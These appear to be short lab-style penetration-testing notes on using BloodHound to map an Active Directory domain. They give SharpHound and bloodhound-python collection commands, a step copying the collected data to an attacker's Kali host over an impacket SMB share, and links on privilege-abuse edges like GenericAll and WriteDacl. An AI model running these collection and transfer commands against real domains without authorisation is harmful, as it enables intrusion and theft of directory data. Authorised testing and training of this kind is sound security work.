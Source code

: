There are 2 ways to run Bloodhound
## 1. SharpHound.ps1
```
Get SharpHound.ps1 from ~/Desktop/tools

Import-Module .\SharpHound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\[user]\Desktop\ -OutputPrefix "domain name" (collecting domain data)

After collection, transfer the BloodHound.zip file into Kali
To transfer, 
On Kali:
impacket-smbserver test . -smb2support  -username kali -password kali
On Windows:
net use m: \\Kali_IP\test /user:kali kali
copy [filename] m:\
```
## 2. bloodhound-python
```
bloodhound-python -c All -d [domain] -u [user] -p [password] -ns [dc-ip]
```

## Starting up Bloodhound
```
First, start neo4j
sudo neo4j start

Go to Bloodhound folder in ~/Desktop/tools/BloodHound-linux-x64
./BloodHound --no-sandbox

Always clear db before starting
```
## Reading the edges for more info
https://support.bloodhoundenterprise.io/hc/en-us/articles/17224136169371-About-BloodHound-Edges - General
Some common ones:
https://support.bloodhoundenterprise.io/hc/en-us/articles/17312347318043-GenericAll - GenericAll
https://support.bloodhoundenterprise.io/hc/en-us/articles/17312755938203-WriteOwner - WriteOwner (also look at Certified HTB)
https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl - WriteDACL
https://support.bloodhoundenterprise.io/hc/en-us/articles/17222775975195-WriteSPN - WriteSPN
